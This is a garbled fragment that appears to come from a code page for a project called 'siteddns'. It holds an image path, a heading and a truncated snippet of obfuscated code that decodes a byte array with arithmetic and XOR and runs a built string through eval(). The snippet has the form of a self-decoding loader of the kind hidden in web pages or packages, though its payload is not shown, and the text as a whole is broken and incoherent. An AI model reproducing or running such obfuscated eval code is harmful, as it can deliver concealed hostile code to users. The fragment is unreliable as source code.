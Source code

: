  # siteddns
=3){yk[ak]=(-((yk[ak]+yk[ak-1])&0xff))&0xff;ak--;}ak="ak=41;while(ak>=1){yk[ak]=((((yk[ak]-236)&0xff)+yk[44])&0xff)^22;ak--;}";eval(ak);ak=1;while(ak
